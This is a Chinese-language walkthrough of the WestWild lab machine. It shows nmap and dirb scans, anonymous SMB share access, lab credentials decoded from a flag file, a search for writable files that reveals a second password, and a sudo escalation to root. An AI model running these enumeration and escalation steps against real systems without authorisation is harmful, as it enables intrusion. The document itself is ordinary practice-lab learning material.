




> 在这个靶机中有SMB服务，所以后续就根据这个找到了用户名及密码，最后才提权成功。所以信息收集很重要，以前我只看http服务，就忽略了其他的服务，也因为刚刚接触，所以经验也不足，只能慢慢摸索。


### nmap扫描

```bash
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 10.10.10.13
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-20 08:13 EST
Nmap scan report for bogon (10.10.10.13)
Host is up (0.00028s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 2.10 seconds
```

> 端口 22/tcp (SSH) 是开放的，这是用于安全远程登录和文件传输的协议。
> 端口 139/tcp (NetBIOS-SSN) 是开放的，这是用于共享文件和打印机的服务。
> 端口 445/tcp (Microsoft-DS) 是开放的，这是用于Microsoft Windows操作系统的文件共享、打印和域控制器服务。

nmap指定漏洞扫描也扫不出啥东西，这里省略。。。

### 目录扫描

```bash
┌──(kali㉿kali)-[~]
└─$ dirb http://10.10.10.13/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Feb 20 08:24:48 2024
URL_BASE: http://10.10.10.13/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.13/ ----
+ http://10.10.10.13/index.html (CODE:200|SIZE:263)
+ http://10.10.10.13/server-status (CODE:403|SIZE:291)
```

也没有扫出来什么东西

### Web渗透

访问80端口


如果要远程登录，那我们就需要知道用户名和密码，所以就先利用`SMB服务`，看看有哪些共享文件，所以先通过使用`smbmap`，扫描的`SMB`服务器的IP地址或主机名。`-H`选项用于指定要扫描的`SMB`服务器的`IP`地址或主机名。

```bash
┌──(kali㉿kali)-[~]
└─$ smbmap -H 10.10.10.13
[+] Guest session       IP: 10.10.10.13:445     Name: bogon
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        wave                                                    READ ONLY       WaveDoor
        IPC$                                                    NO ACCESS       IPC Service (WestWild server (Samba, Ubuntu))
```




发现了一个可读的文件`wave`,然后我们用`smbclient`访问并进入`wave`文件夹里

不需要密码就进去了

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.10.13/wave
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 30 01:18:56 2019
  ..                                  D        0  Thu Aug  1 19:02:20 2019
  FLAG1.txt                           N       93  Mon Jul 29 22:31:05 2019
  message_from_aveng.txt              N      115  Tue Jul 30 01:21:48 2019

                1781464 blocks of size 1024. 283700 blocks available
smb: \>
```


查看flag1，不能读，使用`get`下载下来

```bash
smb: \> cat flag1.txt
cat: command not found
smb: \> get flag1.txt
getting file \flag1.txt of size 93 as flag1.txt (8.3 KiloBytes/sec) (average 8.3 KiloBytes/sec)
smb: \>
```





解码地址：https://base64.us/



> user:wavex
> password:door+open

### 提权

#### ssh连接



找找其他可写文件

```bash
wavex@WestWild:~$ find / -writable -type f ! -path '/proc/*' 2>/dev/null
/sys/fs/cgroup/systemd/user/1001.user/1.session/tasks
/sys/fs/cgroup/systemd/user/1001.user/1.session/cgroup.procs
/sys/kernel/security/apparmor/policy/.remove
/sys/kernel/security/apparmor/policy/.replace
/sys/kernel/security/apparmor/policy/.load
/sys/kernel/security/apparmor/.remove
/sys/kernel/security/apparmor/.replace
/sys/kernel/security/apparmor/.load
/sys/kernel/security/apparmor/.ns_name
/sys/kernel/security/apparmor/.ns_level
/sys/kernel/security/apparmor/.ns_stacked
/sys/kernel/security/apparmor/.stacked
/sys/kernel/security/apparmor/.access
/usr/share/av/westsidesecret/ififoregt.sh
/home/wavex/.cache/motd.legal-displayed
/home/wavex/wave/FLAG1.txt
/home/wavex/wave/message_from_aveng.txt
/home/wavex/.profile
/home/wavex/.bashrc
/home/wavex/.viminfo
/home/wavex/.bash_logout
wavex@WestWild:~$
```


```bash
wavex@WestWild:~$ cat /usr/share/av/westsidesecret/ififoregt.sh
 #!/bin/bash
 figlet "if i foregt so this my way"
 echo "user:aveng"
 echo "password:kaizen+80"


wavex@WestWild:~$
```


```bash
wavex@WestWild:~$ su aveng
Password:
aveng@WestWild:/home/wavex$ sudo -l
[sudo] password for aveng:
Matching Defaults entries for aveng on WestWild:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aveng may run the following commands on WestWild:
    (ALL : ALL) ALL
aveng@WestWild:/home/wavex$ sudo /bin/bash
root@WestWild:/home/wavex# id
uid=0(root) gid=0(root) groups=0(root)
root@WestWild:/home/wavex# cd /root
root@WestWild:/root# ls
FLAG2.txt
root@WestWild:/root# cat FLAG2.txt
Flag2{Weeeeeeeeeeeellco0o0om_T0_WestWild}

Great! take a screenshot and Share it with me in twitter @HashimAlshareff


root@WestWild:/root#
```

提权！成功啦！